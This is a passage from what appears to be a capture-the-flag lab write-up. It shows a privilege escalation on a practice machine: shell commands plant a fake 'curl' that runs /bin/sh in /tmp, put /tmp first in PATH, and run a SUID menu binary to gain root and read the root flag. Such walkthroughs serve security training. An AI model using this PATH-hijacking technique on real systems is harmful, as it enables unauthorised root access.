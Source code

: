 We can exploit this by replacing commands e.g. sh instead of curl and then update the $PATH variable:

```sh
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We can now run ```/usr/bin/menu``` again and when selecting #`1` we execute `sh` (instead of curl). We are now rood (run ```id```) and can access the final flag: ```/cat /root/root.txt```.

